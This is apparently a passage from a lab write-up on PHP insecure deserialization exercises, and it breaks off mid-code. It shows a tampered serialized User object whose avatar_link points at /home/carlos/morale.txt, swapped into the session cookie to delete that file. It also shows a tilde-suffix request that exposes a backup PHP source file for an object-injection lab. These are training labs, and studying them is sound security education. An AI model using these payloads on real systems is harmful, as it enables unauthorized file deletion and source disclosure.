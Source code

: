 2. Observe the following serialised object is created
```php
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"wmqpe96w5szgsv32maodo4yaxdo3ak0e";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```
- Notice that there is an "avatar_link" which points to a filesystem that is our avatar
3. On the account page there is a delete profile link which will delete our account
4. Change the avatar link to be the file `morale.txt` in Carlos' home directory
```php
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"wmqpe96w5szgsv32maodo4yaxdo3ak0e";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
5. Base64 encode > Replace session cookie in browser and refresh page
6. Delete profile
# Arbitrary object injection in PHP
- Delete `morale.txt` from Carlos' home directory
1. Login to page
2. HTTP response contains the following HTML comment
```html
</div>
</section>
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
</div>
```
3. Viewing the page gives us no information in the HTTP response
4. Append a tilde and we can see more information. This works because the tilde is commonly used for backup files or copies of other files
```
GET /libs/CustomTemplate.php~
```
5. We get the following PHP code
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
```